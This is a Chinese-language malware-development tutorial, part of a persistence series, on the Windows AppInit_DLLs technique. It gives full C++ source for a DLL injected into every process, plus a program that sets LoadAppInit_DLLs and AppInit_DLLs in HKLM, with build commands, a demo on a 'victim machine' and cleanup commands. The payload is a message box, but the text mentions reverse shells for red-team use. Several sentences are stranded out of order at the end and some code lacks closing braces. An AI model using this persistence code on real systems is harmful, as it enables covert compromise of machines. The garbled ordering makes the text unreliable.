\newpage
\subsection{恶意软件开发：持久化（第 5 部分）——AppInit_DLLs（简单的 C++ 示例）}

{width="80%"}

这一节是关于 Windows 恶意软件持久化技术与技巧系列文章的下一部分。

Windows 操作系统具备让几乎所有应用程序进程把自定义 DLL 加载到其地址空间的功能。

这就提供了实现持久化的可能性，因为当系统上创建应用程序进程时，任何 DLL 都可能被加载并执行。

### AppInit DLLs

以下注册表项控制着通过 AppInit 加载 DLL：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows` —— 32 位

`HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows` —— 64 位

我们感兴趣的是以下的值：

```powershell
reg query \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /s
```

{width="80%"}

为了保护 Windows 用户免受恶意软件侵害，微软默认禁用了通过 AppInit（`LoadAppInit_DLLs`）加载 DLL。

```powershell
reg query \
"HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\
Windows" \
 /s
```

{width="80%"}

不过，把注册表项 `LoadAppInit_DLLs` 设为值 1 就会启用这一特性。

首先，创建「恶意」DLL。

和往常一样，我会采用「meow-meow」消息框弹窗的逻辑：

```cpp
/*
evil.cpp
inject via Appinit_DLLs
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/16/malware-pers-5.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
  MessageBoxA(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return TRUE;
  }

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
  runMe();
  break;
  case DLL_PROCESS_DETACH:
  break;
  case DLL_THREAD_ATTACH:
  break;
  case DLL_THREAD_DETACH:
  break;
  }
  return TRUE;

```

我们来编译它：

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

{width="80%"}

然后是简单的逻辑：修改注册表项 `AppInit_DLLs` 使其包含指向该 DLL 的路径，结果就是 `evil.dll` 会被加载。

为此我们再创建一个应用 `pers.cpp`：

```cpp
/*
pers.cpp
windows low level persistense via Appinit_DLLs
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/16/malware-pers-5.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\2022-05-16-malware-pers-5\\evil.dll";
  // activation
  DWORD act = 1;

  // 32-bit and 64-bit
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Windows", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
  // create new registry keys
  RegSetValueEx(hkey, (LPCSTR)"LoadAppInit_DLLs", 
  0, REG_DWORD, (const BYTE*)&act, sizeof(act));
  RegSetValueEx(hkey, (LPCSTR)"AppInit_DLLs", 
  0, REG_SZ, (unsigned char*)dll, strlen(dll));
  RegCloseKey(hkey);
  }

  res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Wow6432Node\\Microsoft\\Windows NT\\CurrentVersion\\
  Windows", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
  // create new registry keys
  RegSetValueEx(hkey, (LPCSTR)"LoadAppInit_DLLs", 
  0, REG_DWORD, (const BYTE*)&act, sizeof(act));
  RegSetValueEx(hkey, (LPCSTR)"AppInit_DLLs", 
  0, REG_SZ, (unsigned char*)dll, strlen(dll));
  RegCloseKey(hkey);
  }
  return 0;

```

如你所见，把注册表项 `LoadAppInit_DLLs` 设为值 1 同样很重要。

我们来编译它：

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

### 演示

把所有文件放到受害机器上（我的例子是 Windows 10 x64）。

然后以管理员身份运行：

```powershell
.\pers.exe
```

以及：

```powershell
reg query \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" \
 /s
reg query \
"HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\
Windows" /s
```

只是检查一下。

{width="80%"}

然后，为了演示，打开诸如画图或记事本之类的程序：

{width="80%"}

{width="80%"}

所以一切都完美工作了 :)

#### 第二个例子

不过，这个方法的实施可能会给目标系统带来稳定性和性能上的问题：

{width="80%"}

此外，我认为第一个 DLL 的逻辑非常奇怪，因为会弹出多个消息框，所以在红队场景中我们采取实际行动时：它会非常嘈杂，比如对于多个反向 shell 连接来说。

我尝试稍微更新一下 `evil.dll` 的逻辑：

```cpp
/*
evil2.cpp
inject via Appinit_DLLs - only for `mspaint.exe`
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/16/malware-pers-5.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

char* subStr(char *str, char *substr) {
  while (*str) {
  char *Begin = str;
  char *pattern = substr;
  while (*str && *pattern && *str == *pattern) {
  str++;
  pattern++;
  }
  if (!*pattern)
  	  return Begin;

  str = Begin + 1;
  }
  return NULL;

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
  MessageBoxA(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return TRUE;
  }

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  char path[MAX_PATH];
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
  GetModuleFileName(NULL, path, MAX_PATH);
  if (subStr(path, (char *)"paint")) {
  runMe();
  }
  break;
  case DLL_PROCESS_DETACH:
  break;
  case DLL_THREAD_ATTACH:
  break;
  case DLL_THREAD_DETACH:
  break;
  }
  return TRUE;

```

如你所见，如果当前进程是 paint（并且是 32 位的），那么就「注入」 :)

{width="80%"}

完美！ :)

{width="80%"}

这项技术并不新鲜，但值得注意。

```powershell
reg add \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" \
/v LoadAppInit_DLLs /d 0
reg add \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" \
/v AppInit_DLLs /t REG_SZ /f
```

{width="80%"}

在野外，这个技巧常被 APT 39 等组织以及 Ramsay 等恶意软件使用。

MITRE ATT&CK: APPInit_DLLs

今天我将写关于自我研究另一个持久化技巧的结果：AppInit_DLLs。

实施这个技巧需要管理员级别的权限。

而对于 64 位：

### 实战示例

我们来看看一切的实际运行！

实验结束后进行清理：
